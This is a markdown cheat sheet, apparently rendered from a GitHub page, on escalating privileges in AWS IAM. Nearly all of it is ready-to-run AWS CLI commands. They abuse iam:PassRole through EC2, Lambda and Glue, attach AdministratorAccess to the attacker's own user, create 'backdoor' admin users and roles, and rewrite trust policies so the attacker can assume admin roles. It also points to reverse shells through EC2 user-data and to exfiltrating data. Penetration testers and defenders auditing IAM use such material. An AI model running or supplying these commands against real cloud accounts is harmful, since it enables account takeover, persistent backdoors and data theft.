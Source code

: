 ### Privilege Escalation Cheat Sheet
- Core Concepts
    - iam:PassRole: Lets you pass an IAM role to a service (e.g., EC2, Lambda).
    - iam:Create*, iam:Put*, iam:UpdateAssumeRolePolicy: Can lead to full compromise.
    - Abusable Services: EC2, Lambda, CloudFormation, Glue, SageMaker, DataPipeline.

1. iam:PassRole + Service Abuse

- EC2
```bash
aws ec2 run-instances --image-id [ami-id] --iam-instance-profile Name=[admin-role] ...
```
- Lambda
```bash
aws lambda create-function --function-name backdoor --role [admin-role-arn] ...
```
- Glue
```bash
aws glue create-dev-endpoint --role-arn [admin-role-arn] --endpoint-name evil
```
2. Modify or Attach Inline Policies
- Update your own policy to add permissions:
```bash
aws iam put-user-policy --user-name [me] --policy-name escalator --policy-document file://full-admin.json
```
- Attach a managed admin policy:
```bash
aws iam attach-user-policy --user-name [me] --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
3. Create a New Admin Role/User
- Create a new user
```bash
aws iam create-user --user-name backdoor
aws iam attach-user-policy --user-name backdoor --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
- Create a new role with a trust policy
```bash
aws iam create-role --role-name escalate-me --assume-role-policy-document file://trust.json
aws iam attach-role-policy --role-name escalate-me --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
4. Update Trust Policies for Existing Roles
- Abuse `iam:UpdateAssumeRolePolicy` to let yourself assume an admin role.
```bash
aws iam update-assume-role-policy --role-name [admin-role] --policy-document file://evil-trust.json
```

5. Assume a Role
- Only works if you're trusted by the role (check trust policy).
```bash
aws sts assume-role --role-arn arn:aws:iam::123456789012:role/Admin --role-session-name session1
```
6. Use Services to Execute Code
- If you can launch a service and inject a script, you can exfil data or gain shell access.
    - Lambda: backdoor with high-priv role
    - Glue: launch with shell script
    - EC2: start instance with user-data reverse shell
    - SSM: run commands on existing EC2
- Dangerous IAM Actions to Look For
    - If a user/role has any of these, escalate:
```bash
iam:PassRole  
iam:AttachUserPolicy  
iam:PutUserPolicy  
iam:UpdateAssumeRolePolicy  
```